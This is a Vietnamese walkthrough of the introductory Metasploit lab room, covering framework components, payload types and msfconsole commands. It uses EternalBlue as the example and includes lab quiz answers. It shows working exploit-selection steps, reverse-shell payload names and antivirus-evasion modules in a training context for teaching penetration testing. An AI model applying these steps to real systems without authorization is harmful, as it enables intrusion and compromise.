

# Metasploit: Introduction

## Mục lục

1. [Task 1: Introduction to Metasploit](#task-1-introduction-to-metasploit)
2. [Task 2: Main Components of Metasploit](#task-2-main-components-of-metasploit)
3. [Task 3: Msfconsole](#task-3-msfconsole)
4. [Task 4: Working with modules](#task-4-working-with-modules)


## Nội dung

# Task 1: Introduction to Metasploit

**Giới thiệu về Metasploit**

Metasploit là framework khai thác được sử dụng rộng rãi nhất. Metasploit là một công cụ mạnh mẽ có thể hỗ trợ tất cả các giai đoạn của một bài kiểm thử xâm nhập, từ thu thập thông tin cho đến hậu khai thác.

Metasploit có hai phiên bản chính:

* **Metasploit Pro**: Phiên bản thương mại hỗ trợ tự động hóa và quản lý các tác vụ. Phiên bản này có giao diện người dùng đồ họa (GUI).
* **Metasploit Framework**: Phiên bản mã nguồn mở hoạt động từ dòng lệnh. Phòng lab này sẽ tập trung vào phiên bản này, được cài đặt trên AttackBox và thường được sử dụng trong kiểm thử xâm nhập trên các bản phân phối Linux.

Metasploit Framework là tập hợp các công cụ cho phép thu thập thông tin, quét, khai thác, phát triển exploit, hậu khai thác và nhiều hơn nữa. Mặc dù mục đích chính của Metasploit Framework là phục vụ cho lĩnh vực kiểm thử xâm nhập, nó cũng hữu ích trong nghiên cứu lỗ hổng và phát triển exploit.

Các thành phần chính của Metasploit Framework có thể được tóm tắt như sau:

* **msfconsole**: Giao diện dòng lệnh chính.
* **Modules**: Các module hỗ trợ như exploit, trình quét, payload, v.v.
* **Tools**: Các công cụ độc lập hỗ trợ nghiên cứu lỗ hổng, đánh giá lỗ hổng hoặc kiểm thử xâm nhập. Một số công cụ này bao gồm msfvenom, pattern\_create và pattern\_offset. Trong module này, chúng ta sẽ tìm hiểu msfvenom, còn pattern\_create và pattern\_offset là các công cụ hữu ích trong phát triển exploit nhưng nằm ngoài phạm vi của module này.

Phòng lab này sẽ đề cập đến các thành phần chính của Metasploit, cung cấp nền tảng vững chắc để tìm kiếm exploit phù hợp, đặt tham số và khai thác các dịch vụ dễ bị tấn công trên hệ thống mục tiêu. Sau khi hoàn thành phòng lab, bạn sẽ có thể điều hướng và sử dụng thoải mái dòng lệnh của Metasploit.

---

# Task 2: Main Components of Metasploit

**Các thành phần chính của Metasploit**

Khi sử dụng Metasploit Framework, bạn sẽ chủ yếu tương tác với bảng điều khiển Metasploit. Bạn có thể khởi chạy nó từ terminal của AttackBox bằng lệnh `msfconsole`. Bảng điều khiển sẽ là giao diện chính để bạn tương tác với các module khác nhau của Metasploit Framework. Các module là những thành phần nhỏ bên trong Metasploit Framework, được tạo ra để thực hiện một nhiệm vụ cụ thể, chẳng hạn như khai thác lỗ hổng, quét mục tiêu hoặc thực hiện tấn công brute-force.

Trước khi đi sâu vào các module, sẽ hữu ích nếu làm rõ một số khái niệm thường gặp: lỗ hổng (vulnerability), khai thác (exploit) và payload.

* **Exploit**: Một đoạn mã sử dụng lỗ hổng tồn tại trên hệ thống mục tiêu.
* **Vulnerability**: Một lỗi thiết kế, cấu hình hoặc logic ảnh hưởng đến hệ thống mục tiêu. Khai thác lỗ hổng có thể dẫn đến việc tiết lộ thông tin bí mật hoặc cho phép kẻ tấn công thực thi mã trên hệ thống mục tiêu.
* **Payload**: Một exploit sẽ tận dụng lỗ hổng. Tuy nhiên, nếu chúng ta muốn exploit đạt được kết quả mong muốn (truy cập hệ thống mục tiêu, đọc thông tin bí mật, v.v.), chúng ta cần sử dụng payload. Payload là đoạn mã sẽ chạy trên hệ thống mục tiêu.

Các module và danh mục dưới đây được liệt kê cho mục đích tham khảo, nhưng bạn sẽ tương tác với chúng thông qua bảng điều khiển Metasploit (`msfconsole`).

**Auxiliary**
Bất kỳ module hỗ trợ nào, chẳng hạn như các trình quét, crawler và fuzzer, có thể được tìm thấy tại đây.

```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 auxiliary/
auxiliary/
├── admin
├── analyze
├── bnat
├── client
├── cloud
├── crawler
├── docx
├── dos
├── example.py
├── example.rb
├── fileformat
├── fuzzers
├── gather
├── parser
├── pdf
├── scanner
├── server
├── sniffer
├── spoof
├── sqli
├── voip
└── vsploit

20 directories, 2 files
```

**Bộ mã hóa (Encoders)**

Bộ mã hóa cho phép bạn mã hóa exploit và payload với hy vọng rằng các giải pháp chống virus dựa trên chữ ký sẽ bỏ sót chúng.

Các giải pháp chống virus và bảo mật dựa trên chữ ký có một cơ sở dữ liệu chứa các mối đe dọa đã biết. Chúng phát hiện mối đe dọa bằng cách so sánh các tệp đáng ngờ với cơ sở dữ liệu này và đưa ra cảnh báo nếu có sự trùng khớp. Do đó, bộ mã hóa có thể chỉ đạt tỷ lệ thành công hạn chế vì các giải pháp chống virus có thể thực hiện các kiểm tra bổ sung.


```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 encoders/
encoders/
├── cmd
├── generic
├── mipsbe
├── mipsle
├── php
├── ppc
├── ruby
├── sparc
├── x64
└── x86

10 directories, 0 files
```

**Tránh né (Evasion)**

Mặc dù bộ mã hóa sẽ mã hóa payload, chúng không nên được coi là một nỗ lực trực tiếp để né tránh phần mềm chống virus. Ngược lại, các module “evasion” sẽ cố gắng thực hiện điều đó, với mức độ thành công nhiều hoặc ít tùy trường hợp.


```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 2 evasion/
evasion/
└── windows
    ├── applocker_evasion_install_util.rb
    ├── applocker_evasion_msbuild.rb
    ├── applocker_evasion_presentationhost.rb
    ├── applocker_evasion_regasm_regsvcs.rb
    ├── applocker_evasion_workflow_compiler.rb
    ├── process_herpaderping.rb
    ├── syscall_inject.rb
    ├── windows_defender_exe.rb
    └── windows_defender_js_hta.rb

1 directory, 9 files
```

**Exploit**

Các exploit được sắp xếp gọn gàng theo hệ thống mục tiêu.

```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 exploits/
exploits/
├── aix
├── android
├── apple_ios
├── bsd
├── bsdi
├── dialup
├── example_linux_priv_esc.rb
├── example.py
├── example.rb
├── example_webapp.rb
├── firefox
├── freebsd
├── hpux
├── irix
├── linux
├── mainframe
├── multi
├── netware
├── openbsd
├── osx
├── qnx
├── solaris
├── unix
└── windows

20 directories, 4 files
```

**NOPs**

NOPs (No OPeration) thực sự không làm gì cả. Trong họ CPU Intel x86, chúng được biểu diễn bằng mã 0x90, sau đó CPU sẽ không làm gì trong một chu kỳ. Chúng thường được sử dụng như một bộ đệm để đạt được kích thước payload đồng nhất.


```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 nops/
nops/
├── aarch64
├── armle
├── cmd
├── mipsbe
├── php
├── ppc
├── sparc
├── tty
├── x64
└── x86

10 directories, 0 files
```

**Payloads**

Payload là các đoạn mã sẽ chạy trên hệ thống mục tiêu.

Exploit sẽ tận dụng một lỗ hổng trên hệ thống mục tiêu, nhưng để đạt được kết quả mong muốn, chúng ta sẽ cần một payload. Ví dụ có thể bao gồm: lấy shell, tải phần mềm độc hại hoặc backdoor lên hệ thống mục tiêu, chạy một lệnh, hoặc khởi chạy `calc.exe` như một bản minh chứng để đưa vào báo cáo kiểm thử xâm nhập. Việc khởi động ứng dụng máy tính (`calc.exe`) trên hệ thống mục tiêu từ xa là một cách an toàn để chứng minh rằng chúng ta có thể chạy lệnh trên hệ thống mục tiêu.

Việc chạy lệnh trên hệ thống mục tiêu đã là một bước quan trọng, nhưng việc có một kết nối tương tác cho phép bạn gõ lệnh và lệnh đó sẽ được thực thi trên hệ thống mục tiêu thì còn tốt hơn. Một dòng lệnh tương tác như vậy được gọi là **shell**. Metasploit cung cấp khả năng gửi các payload khác nhau có thể mở shell trên hệ thống mục tiêu.


```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 payloads/
payloads/
├── adapters
├── singles
├── stagers
└── stages

4 directories, 0 files
```

Bạn sẽ thấy bốn thư mục khác nhau trong payloads: adapters, singles, stagers và stages.

* **Adapters**: Bộ chuyển đổi bao bọc payload đơn để chuyển chúng sang các định dạng khác. Ví dụ: một payload đơn thông thường có thể được bao bọc trong bộ chuyển đổi **Powershell**, bộ này sẽ tạo ra một lệnh powershell duy nhất để thực thi payload.
* **Singles**: Payload độc lập (thêm người dùng, khởi chạy notepad.exe, v.v.) không cần tải thêm thành phần bổ sung để chạy.
* **Stagers**: Chịu trách nhiệm thiết lập kênh kết nối giữa Metasploit và hệ thống mục tiêu. Hữu ích khi làm việc với staged payloads. “Staged payloads” sẽ tải lên trước một stager trên hệ thống mục tiêu, sau đó tải xuống phần còn lại của payload (stage). Điều này có lợi vì kích thước ban đầu của payload sẽ tương đối nhỏ so với khi tải toàn bộ payload một lần.
* **Stages**: Được tải xuống bởi stager. Điều này cho phép bạn sử dụng các payload có kích thước lớn hơn.

Metasploit có một cách tinh tế để giúp bạn phân biệt payload đơn (còn gọi là “inline”) và payload theo giai đoạn:

* `generic/shell_reverse_tcp`
* `windows/x64/shell/reverse_tcp`

Cả hai đều là reverse shell cho Windows. Loại đầu tiên là payload inline (đơn), được biểu thị bằng dấu gạch dưới `_` giữa “shell” và “reverse”. Trong khi loại thứ hai là payload theo giai đoạn (staged), được biểu thị bằng dấu gạch chéo `/` giữa “shell” và “reverse”.

**Post**
Các module Post sẽ hữu ích ở giai đoạn cuối của quá trình kiểm thử xâm nhập đã đề cập ở trên, tức giai đoạn hậu khai thác.


```bash
root@ip-10-10-135-188:/opt/metasploit-framework/embedded/framework/modules# tree -L 1 post/
post/
├── aix
├── android
├── apple_ios
├── bsd
├── firefox
├── hardware
├── linux
├── multi
├── networking
├── osx
├── solaris
└── windows

12 directories, 0 files
```

Nếu bạn muốn tìm hiểu kỹ hơn về các module này, bạn có thể tìm thấy chúng trong thư mục **modules** của bản cài đặt Metasploit.
Đối với AttackBox, chúng nằm tại:
`/opt/metasploit-framework/embedded/framework/modules`

---

**Trả lời các câu hỏi bên dưới**

Tên của đoạn mã khai thác một lỗ hổng trên hệ thống mục tiêu là gì?

**Exploit**

Tên của đoạn mã chạy trên hệ thống mục tiêu để đạt được mục tiêu của kẻ tấn công là gì?

**Payload**

Payload độc lập được gọi là gì?

**Singles**

"windows/x64/pingback\_reverse\_tcp" thuộc loại payload singles hay staged?

**singles**

---

# Task 3: Msfconsole
**Msfconsole**

Như đã đề cập trước đó, bảng điều khiển sẽ là giao diện chính của bạn với Metasploit Framework. Bạn có thể khởi chạy nó bằng lệnh `msfconsole` trên terminal của AttackBox hoặc bất kỳ hệ thống nào đã cài đặt Metasploit Framework.

```bash
root@ip-10-10-220-191:~# msfconsole 
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.0                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Search can apply complex filters such as search cve:2009 type:exploit, see all the filters with help search

msf6 >
```

Khi được khởi chạy, bạn sẽ thấy dòng lệnh chuyển thành msf6 (hoặc msf5 tùy thuộc vào phiên bản Metasploit đã cài đặt). Bảng điều khiển Metasploit (msfconsole) có thể được sử dụng giống như một shell dòng lệnh thông thường, như bạn có thể thấy bên dưới.

Lệnh đầu tiên là `ls`, liệt kê nội dung của thư mục nơi Metasploit được khởi chạy bằng lệnh `msfconsole`.

Tiếp theo là lệnh `ping` gửi tới địa chỉ IP DNS của Google (8.8.8.8). Vì chúng ta hoạt động từ AttackBox (Linux) nên cần thêm tùy chọn `-c 1` để chỉ gửi một gói ping duy nhất. Nếu không, tiến trình ping sẽ tiếp tục cho đến khi được dừng lại bằng `CTRL+C`.


```bash
msf6 > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 > ping -c 1 8.8.8.8
[*] exec: ping -c 1 8.8.8.8

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=109 time=1.33 ms

--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.335/1.335/1.335/0.000 ms
msf6 >
```

Nó sẽ hỗ trợ hầu hết các lệnh Linux, bao gồm `clear` (để xóa màn hình terminal), nhưng sẽ không cho phép bạn sử dụng một số tính năng của dòng lệnh thông thường (ví dụ: không hỗ trợ chuyển hướng đầu ra), như minh họa bên dưới.


```bash
msf6 > help > help.txt
[-] No such command
msf6 >
```

Nhân tiện, lệnh `help` có thể được sử dụng riêng hoặc cho một lệnh cụ thể. Bên dưới là menu trợ giúp cho lệnh `set` mà chúng ta sẽ tìm hiểu sớm.

```bash
msf6 > help set
Usage: set [option] [value]

Set the given option to value.  If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore.  Use -g to operate on the global datastore.

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >
```

Bạn có thể sử dụng lệnh history để xem các lệnh bạn đã nhập trước đó.

```bash
msf6 > history
1  use exploit/multi/http/nostromo_code_exec
2  set lhost 10.10.16.17
3  set rport 80
4  options
5  set rhosts 10.10.29.187
6  run
7  exit
8  exit -y
9  version
10  use exploit/multi/script/web_delivery
```

Một tính năng quan trọng của msfconsole là hỗ trợ tính năng tự động hoàn thành lệnh (tab completion). Điều này sẽ rất hữu ích khi sử dụng các lệnh Metasploit hoặc làm việc với các module. Ví dụ, nếu bạn bắt đầu gõ `he` và nhấn phím Tab, bạn sẽ thấy nó tự động hoàn thành thành `help`.

Msfconsole được quản lý theo ngữ cảnh; điều này có nghĩa là trừ khi được đặt làm biến toàn cục, tất cả các thiết lập tham số sẽ bị mất nếu bạn thay đổi module đang sử dụng. Trong ví dụ bên dưới, chúng ta đã sử dụng exploit `ms17_010_eternalblue` và đặt các tham số như `RHOSTS`. Nếu chúng ta chuyển sang module khác (ví dụ: trình quét cổng), chúng ta sẽ cần đặt lại giá trị `RHOSTS` vì tất cả các thay đổi trước đó chỉ tồn tại trong ngữ cảnh của exploit `ms17_010_eternalblue`.

Hãy xem ví dụ bên dưới để hiểu rõ hơn về tính năng này. Chúng ta sẽ dùng exploit MS17-010 “Eternalblue” để minh họa.

Khi bạn nhập lệnh

```
use exploit/windows/smb/ms17_010_eternalblue
```

bạn sẽ thấy dấu nhắc lệnh thay đổi từ `msf6` sang

```
msf6 exploit(windows/smb/ms17_010_eternalblue)
```

“EternalBlue” là một exploit được cho là do Cơ quan An ninh Quốc gia Hoa Kỳ (NSA) phát triển cho một lỗ hổng ảnh hưởng đến SMBv1 trên nhiều hệ thống Windows. **SMB** (Server Message Block) được sử dụng rộng rãi trong mạng Windows để chia sẻ tệp và thậm chí gửi tệp tới máy in. EternalBlue bị rò rỉ bởi nhóm tội phạm mạng “Shadow Brokers” vào tháng 4/2017. Vào tháng 5/2017, lỗ hổng này đã bị khai thác trên toàn thế giới trong cuộc tấn công ransomware WannaCry.

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Module cần sử dụng cũng có thể được chọn bằng lệnh `use` kèm theo số ở đầu dòng kết quả tìm kiếm.

Mặc dù dấu nhắc lệnh đã thay đổi, bạn sẽ thấy rằng chúng ta vẫn có thể chạy các lệnh đã đề cập trước đó. Điều này có nghĩa là chúng ta không “vào” một thư mục như bạn thường thấy trong dòng lệnh của hệ điều hành.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > ls
[*] exec: ls

burpsuite_community_linux_v2021_8_1.sh	Instructions  Scripts
Desktop					Pictures      thinclient_drives
Downloads				Postman       Tools
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Lời nhắc cho biết chúng ta hiện đã có một ngữ cảnh để làm việc. Bạn có thể xem điều này bằng cách nhập lệnh show options.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Điều này sẽ in ra các tùy chọn liên quan đến exploit mà chúng ta đã chọn trước đó. Lệnh `show options` sẽ có các kết quả khác nhau tùy thuộc vào ngữ cảnh sử dụng.

Ví dụ ở trên cho thấy exploit này sẽ yêu cầu chúng ta đặt các biến như `RHOSTS` và `RPORT`. Mặt khác, một module hậu khai thác có thể chỉ yêu cầu chúng ta đặt `SESSION ID` (xem ảnh chụp màn hình bên dưới).

**Session** là một kết nối hiện có tới hệ thống mục tiêu mà module hậu khai thác sẽ sử dụng.

```bash
msf6 post(windows/gather/enum_domain_users) > show options

Module options (post/windows/gather/enum_domain_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HOST                      no        Target a specific host
   SESSION                   yes       The session to run this module on.
   USER                      no        Target User for NetSessionEnum

msf6 post(windows/gather/enum_domain_users) >
```

Lệnh `show` có thể được sử dụng trong bất kỳ ngữ cảnh nào, theo sau là một loại module (auxiliary, payload, exploit, v.v.) để liệt kê các module hiện có.

Ví dụ bên dưới liệt kê các payload có thể được sử dụng với exploit ms17-010 Eternalblue.


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   generic/custom                                               manual  No     Custom Payload
   1   generic/shell_bind_tcp                                       manual  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                    manual  No     Generic Command Shell, Reverse TCP Inline
   3   windows/x64/exec                                             manual  No     Windows x64 Execute Command
   4   windows/x64/loadlibrary                                      manual  No     Windows x64 LoadLibrary Path
   5   windows/x64/messagebox                                       manual  No     Windows MessageBox x64
   6   windows/x64/meterpreter/bind_ipv6_tcp                        manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   windows/x64/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support 
```

Nếu được sử dụng từ dấu nhắc msfconsole, lệnh `show` sẽ liệt kê tất cả các module.

Các lệnh `use` và `show options` mà chúng ta đã thấy cho đến nay đều giống nhau đối với tất cả các module trong Metasploit.

Bạn có thể thoát khỏi ngữ cảnh bằng lệnh `back`.


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > 
```

Thông tin chi tiết hơn về bất kỳ module nào có thể được lấy bằng cách nhập lệnh `info` trong ngữ cảnh của module đó.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > info

       Name: MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     Module: exploit/windows/smb/ms17_010_eternalblue
   Platform: Windows
       Arch: 
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2017-03-14

Provided by:
  Sean Dillon 
  Dylan Davis 
  Equation Group
  Shadow Brokers
  thelightcosine

Available targets:
  Id  Name
  --  ----
  0   Windows 7 and Server 2008 R2 (x64) All Service Packs

Check supported:
  Yes

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
  RPORT          445              yes       The target port (TCP)
  SMBDomain      .                no        (Optional) The Windows domain to use for authentication
  SMBPass                         no        (Optional) The password for the specified username
  SMBUser                         no        (Optional) The username to authenticate as
  VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
  VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload information:
  Space: 2000

Description:
  This module is a port of the Equation Group ETERNALBLUE exploit, 
  part of the FuzzBunch toolkit released by Shadow Brokers. There is a 
  buffer overflow memmove operation in Srv!SrvOs2FeaToNt. The size is 
  calculated in Srv!SrvOs2FeaListSizeToNt, with mathematical error 
  where a DWORD is subtracted into a WORD. The kernel pool is groomed 
  so that overflow is well laid-out to overwrite an SMBv1 buffer. 
  Actual RIP hijack is later completed in 
  srvnet!SrvNetWskReceiveComplete. This exploit, like the original may 
  not trigger 100% of the time, and should be run continuously until 
  triggered. It seems like the pool will get hot streaks and need a 
  cool down period before the shells rain in again. The module will 
  attempt to use Anonymous login, by default, to authenticate to 
  perform the exploit. If the user supplies credentials in the 
  SMBUser, SMBPass, and SMBDomain options it will use those instead. 
  On some systems, this module may cause system instability and 
  crashes, such as a BSOD or a reboot. This may be more likely with 
  some payloads.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://cvedetails.com/cve/CVE-2017-0143/
  https://cvedetails.com/cve/CVE-2017-0144/
  https://cvedetails.com/cve/CVE-2017-0145/
  https://cvedetails.com/cve/CVE-2017-0146/
  https://cvedetails.com/cve/CVE-2017-0147/
  https://cvedetails.com/cve/CVE-2017-0148/
  https://github.com/RiskSense-Ops/MS17-010

Also known as:
  ETERNALBLUE

msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

Ngoài ra, bạn có thể sử dụng lệnh `info` kèm theo đường dẫn của module từ dấu nhắc msfconsole (ví dụ: `info exploit/windows/smb/ms17_010_eternalblue`). Lệnh `info` không phải là menu trợ giúp; nó sẽ hiển thị thông tin chi tiết về module như tác giả, nguồn tham khảo liên quan, v.v.

**Tìm kiếm (Search)**
Một trong những lệnh hữu ích nhất trong msfconsole là `search`. Lệnh này sẽ tìm kiếm trong cơ sở dữ liệu của Metasploit Framework các module phù hợp với tham số tìm kiếm đã cho. Bạn có thể tìm kiếm bằng số CVE, tên exploit (eternalblue, heartbleed, v.v.) hoặc hệ thống mục tiêu.

```bash
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 >
```

Kết quả của lệnh `search` cung cấp tổng quan về từng module trả về. Bạn có thể nhận thấy cột “name” đã cung cấp nhiều thông tin hơn chỉ là tên module. Bạn có thể thấy loại module (auxiliary, exploit, v.v.) và danh mục của module (scanner, admin, windows, Unix, v.v.). Bạn có thể sử dụng bất kỳ module nào được trả về trong kết quả tìm kiếm bằng lệnh `use` kèm theo số ở đầu dòng kết quả (ví dụ: `use 0` thay vì `use auxiliary/admin/smb/ms17_010_command`).

Một thông tin quan trọng khác được trả về là cột “rank” (xếp hạng). Các exploit được xếp hạng dựa trên độ tin cậy. Bảng dưới đây cung cấp mô tả tương ứng:

| Xếp hạng             | Mô tả                                                                                                                                                                                      |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **ExcellentRanking** | Exploit sẽ không bao giờ làm sập dịch vụ. Thường áp dụng cho SQL Injection, CMD execution, RFI, LFI, v.v. Không nên áp dụng cho các exploit gây lỗi bộ nhớ trừ khi có trường hợp đặc biệt. |
| **GreatRanking**     | Exploit có mục tiêu mặc định **và** tự động phát hiện mục tiêu phù hợp hoặc sử dụng địa chỉ trả về cụ thể **sau** khi kiểm tra phiên bản.                                                  |
| **GoodRanking**      | Exploit có mục tiêu mặc định và là trường hợp phổ biến cho loại phần mềm này (ví dụ: Windows 7 cho ứng dụng desktop, 2012 cho server).                                                     |
| **NormalRanking**    | Exploit nhìn chung đáng tin cậy nhưng phụ thuộc vào phiên bản cụ thể và không (hoặc khó) tự động phát hiện.                                                                                |
| **AverageRanking**   | Exploit thường không đáng tin cậy hoặc khó khai thác.                                                                                                                                      |
| **LowRanking**       | Exploit gần như không thể khai thác (hoặc tỷ lệ thành công dưới 50%) trên các nền tảng phổ biến.                                                                                           |
| **ManualRanking**    | Exploit không ổn định hoặc khó khai thác, về cơ bản là tấn công DoS. Cũng được dùng khi module chỉ hoạt động nếu người dùng cấu hình đặc biệt.                                             |

**Nguồn**: [Metasploit Exploit Ranking](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

Bạn có thể điều hướng chức năng tìm kiếm bằng từ khóa như `type` và `platform`.

Ví dụ: nếu chúng ta muốn kết quả tìm kiếm chỉ bao gồm các module auxiliary, ta có thể đặt `type` là `auxiliary`. Ảnh chụp màn hình bên dưới minh họa kết quả tìm kiếm với từ khóa `type:auxiliary telnet`.


```bash
msf6 > search type:auxiliary telnet

Matching Modules
================

   #   Name                                                Disclosure Date  Rank    Check  Description
   -   ----                                                ---------------  ----    -----  -----------
   0   auxiliary/admin/http/dlink_dir_300_600_exec_noauth  2013-02-04       normal  No     D-Link DIR-600 / DIR-300 Unauthenticated Remote Command Execution
   1   auxiliary/admin/http/netgear_r6700_pass_reset       2020-06-15       normal  Yes    Netgear R6700v3 Unauthenticated LAN Admin Password Reset
   2   auxiliary/dos/cisco/ios_telnet_rocem                2017-03-17       normal  No     Cisco IOS Telnet Denial of Service
   3   auxiliary/dos/windows/ftp/iis75_ftpd_iac_bof        2010-12-21       normal  No     Microsoft IIS FTP Server Encoded Response Overflow Trigger
   4   auxiliary/scanner/ssh/juniper_backdoor              2015-12-20       normal  No     Juniper SSH Backdoor Scanner
   5   auxiliary/scanner/telnet/brocade_enable_login                        normal  No     Brocade Enable Login Check Scanner
   6   auxiliary/scanner/telnet/lantronix_telnet_password                   normal  No     Lantronix Telnet Password Recovery
   7   auxiliary/scanner/telnet/lantronix_telnet_version                    normal  No     Lantronix Telnet Service Banner Detection
   8   auxiliary/scanner/telnet/satel_cmd_exec             2017-04-07       normal  No     Satel Iberia SenNet Data Logger and Electricity Meters Command Injection Vulnerability
   9   auxiliary/scanner/telnet/telnet_encrypt_overflow                     normal  No     Telnet Service Encryption Key ID Overflow Detection
   10  auxiliary/scanner/telnet/telnet_login                                normal  No     Telnet Login Check Scanner
   11  auxiliary/scanner/telnet/telnet_ruggedcom                            normal  No     RuggedCom Telnet Password Generator
   12  auxiliary/scanner/telnet/telnet_version                              normal  No     Telnet Service Banner Detection
   13  auxiliary/server/capture/telnet                                      normal  No     Authentication Capture: Telnet


Interact with a module by name or index, for example use 13 or use auxiliary/server/capture/telnet

msf6 >
```

Xin lưu ý rằng các khai thác này lợi dụng lỗ hổng trên hệ thống mục tiêu và luôn có thể gây ra những hành vi không mong muốn. Một khai thác cấp thấp có thể hoạt động hoàn hảo, còn một khai thác cấp cao có thể không hoạt động, hoặc tệ hơn, làm sập hệ thống mục tiêu.

---

**Trả lời các câu hỏi bên dưới**

Làm thế nào để bạn tìm kiếm một module liên quan đến Apache?

`search apache`

Ai là người cung cấp module `auxiliary/scanner/ssh/ssh_login`?

`todb`

>Sử dụng lệnh info

---

# Task 4: Working with modules
**Làm việc với các module**

